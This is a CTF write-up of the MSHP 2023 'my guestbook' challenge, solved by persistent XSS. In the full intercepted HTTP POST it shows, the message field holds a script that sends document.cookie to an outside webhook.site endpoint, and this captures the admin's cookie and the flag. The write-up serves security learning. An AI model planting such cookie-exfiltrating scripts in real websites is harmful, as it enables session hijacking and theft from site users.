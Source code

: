 # MSHP 2023 - [1] my guestbook

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023
**Challenge name:** [1] my guestbook
**Challenge description:**
> Someone wrongly implemented a security mechanism of cookies. Try to receive it, and then... see what needs to be done.
> UPDATE:
> Admin logs in every full hour! Also, there is also new hint!

**Challenge URL:** http://ctf.securitum.ninja/ctfY/
**Challenge category:** websec/persistentXSS
**Challenge points:** 100

* * *

## Steps to solve
The website we were presented with consisted of title header, login form, comment-adding form and of course list of comments (oldest first):
![website.png](../_resources/website.png)

Whenever you pressed "Submit" button, the contents of message input box were sent and appended to the bottom of guestbook.

> My thought at the time:
> If there is no form validation present, then we could perform *persistent XSS attack*.

I intercepted POST request with *Burp Suite*, so that I could manipulate the message content and repeat the request.

> Why did I think about creating own POST with Burp?
> Oh, that was necessary, because at the time website form accepted input of 3-character long strings only (probably one of the participants made this change to make the challenge harder for everybody else)
> POST allowed me to send longer (than 3-chars) messages

But what did I intend to do exactly? The challenge description said something about cookies, and header subtext mentioned comments being read every full hour, so... let's find out what owner's cookies look like! *webhook.site* was very helpful to do *admin session leakage* as it served as endpoint under my own control, meaning I could read incoming requests.

First I intercepted POST request with safe message payload, to then manipulate it with my own malicious code:
```http
POST /ctfY/ HTTP/1.1
Host: ctf.securitum.ninja
Content-Length: 149
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ctf.securitum.ninja
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://ctf.securitum.ninja/ctfY/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

message=<script>fetch('https://webhook.site/e4c3c9cc-fa48-4865-801c-22cbc4d25eab',+{+method:+'POST',+mode:+'no-cors',+body:+document.cookie+});</script>
```

I checked the website source code, and my payload was sucessfully attached in comments section - now it was time to wait. 
As you can already imagine - whenever the admin would refresh the site, he would fetch my *webhook.site* link with his admin cookie attached.

And indeed, at the nearest full hour - the response came:
![response.png](../_resources/response.png)

```
flag=MSHP_%7BSGwP%3D7Z%40%26jJcVz%23%7D
```

Which after URL decoding (with *urldecoder.io* or *CyberChef*), resulted in: 
**FLAG:** MSHP_{SGwP=7Z@&jJcVz#}

## Additional comments
It was hard at first to understand what functionality was intended by organizers, and what behaviour was added by the participants. As the assumption of no form validation was true, thus everybody could change website behaviour and looks the way they wanted to.

Also, even though the website had no cookies present (in non-authenticated session), other participants created false flags there, to mislead their competitors - guiding in wrong direction.